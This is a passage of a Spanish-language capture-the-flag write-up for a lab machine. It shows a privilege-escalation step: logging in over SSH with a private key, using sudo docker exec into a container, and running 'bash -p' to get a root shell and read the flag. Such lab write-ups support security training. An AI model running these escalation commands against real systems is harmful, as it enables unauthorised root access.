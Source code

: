 1. No conectamos nuevamente con ssh

    ```bash
    ssh -i id_rsa noah@10.10.10.230
    sudo /usr/bin/docker exec -it webapp-dev01 /bin/sh
    ls -l /bin/bash
    bash -p
    whoami

    root
    ```

Ya estamos root y podemos leer la flag
